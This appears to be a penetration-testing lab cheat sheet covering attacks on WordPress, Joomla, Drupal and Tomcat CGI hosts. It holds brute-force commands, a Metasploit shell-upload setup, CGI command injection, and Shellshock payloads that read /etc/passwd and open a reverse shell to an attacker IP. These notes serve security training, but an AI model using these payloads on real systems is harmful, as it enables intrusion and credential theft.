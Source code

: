 #

# CMS

## WordPress

To find plugin versions , ex : wp-sitemap-page  
`http://blog.inlanefreight.local/wp-content/plugins/wp-sitemap-page/readme.txt`

`curl http://blog.inlanefreight.local/?p=1 | grep plugin`  
`curl http://blog.inlanefreight.local | grep plugin`

**wpscan**

The tool uses two kinds of login brute force attacks, `xmlrpc` and `wp-login`.  
The `wp-login` method will attempt to brute force the standard WordPress login page, while the `xmlrpc` method uses WordPress API to make login attempts through /xmlrpc.php.  
***The `xmlrpc` method is preferred as it’s faster.***

```
wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```

### Code Execution

```
msf6 > use exploit/unix/webapp/wp_admin_shell_upload 

[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.local
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username john
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password firebird1
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.14.15 
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhost 10.129.42.195  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set VHOST blog.inlanefreight.local
```

## Joomla

### Enumeration

[droopescan](https://github.com/droope/droopescan), a plugin-based scanner that works for SilverStripe, WordPress, and Drupal with limited functionality for Joomla and Moodle.  

```
droopescan scan joomla --url http://dev.inlanefreight.local/
```

### Brute Force

[joomla-brute.py](https://github.com/ajnik/joomla-bruteforce)
```
python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
```

## Drupal

### Enumeration

```
droopescan scan drupal -u http://drupal.inlanefreight.local
```

## Attacking Tomcat CGI

### Fuzzing Extentions - .CMD

```
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.cmd
```

### Fuzzing Extentions - .BAT

```
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.bat
```

### Enumeration - Gobuster

```
gobuster dir -u http://10.129.204.231/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi
```

### Exploitation 
```
http://10.129.204.227:8080/cgi/welcome.bat?&set
```
```
http://10.129.204.227:8080/cgi/welcome.bat?&c:\windows\system32\whoami.exe
```
```
http://10.129.204.227:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe
```

### Confirming the Vulnerability

```
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.129.204.231/cgi-bin/access.cgi
```

### Exploitation to Reverse Shell Access

```
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.38/7777 0>&1' http://10.129.204.231/cgi-bin/access.cgi
```
